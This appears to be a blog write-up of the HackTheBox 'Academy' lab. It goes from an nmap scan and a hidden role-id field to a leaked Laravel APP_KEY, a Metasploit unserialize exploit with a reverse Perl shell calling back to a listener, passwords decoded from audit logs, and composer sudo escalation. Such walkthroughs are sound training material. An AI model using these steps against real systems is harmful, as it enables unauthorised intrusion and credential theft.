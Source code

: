 ```yaml
---
layout: post
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache httpd (port 80)

![Port 80](/assets/img/htb/machines/linux/easy/academy/80.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](/assets/img/htb/machines/linux/easy/academy/msf.png)

{% highlight bash %}
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
{% endhighlight %}

![reverse_shell](/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

{% highlight bash %}
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
{% endhighlight %}

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

{% highlight bash %}
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
{% endhighlight %}

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)